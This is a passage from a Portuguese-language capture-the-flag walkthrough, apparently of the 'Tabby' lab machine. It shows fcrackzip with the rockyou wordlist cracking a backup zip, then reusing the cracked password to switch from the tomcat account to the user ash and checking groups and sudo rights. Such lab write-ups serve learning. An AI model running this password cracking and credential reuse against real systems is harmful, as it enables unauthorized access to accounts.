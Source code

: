 ```bash
```

Usei esses parametros e a lista  rockyou para fazer o brute forte

```bash
fcrackzip -b -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip
```

Foi rápido até

possible pw found: admin@it ()

com essa senha da para descompactar o arquivo na verdade essa senha nao vai ser para  descompactar o arquivo, essa senha é do user da maquina

Depois volte para o terminal logado na maquina
e va para o

cd /home

Faça login com esse tal de ash

```bash
tomcat@tabby:/home$ ls
ls
ash
tomcat@tabby:/home$ cd ash    
cd ash
bash: cd: ash: Permission denied
tomcat@tabby:/home$ su ash
su ash
Password: admin@it

ash@tabby:/home$ ls
ls
ash
ash@tabby:/home$ 
```

```bash
ash@tabby:/home$ cd ash
cd ash
ash@tabby:~$ ls
ls
linpeas.sh  snap  user.txt
ash@tabby:~$ 
```

a flag de user


```bash
ash@tabby:~$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

```bash
ash@tabby:~$ sudo -l
    sudo: unable to open /run/sudo/ts/ash: Read-only file system
    [sudo] password for ash: 
     Sorry, user ash may not run sudo on tabby.
```
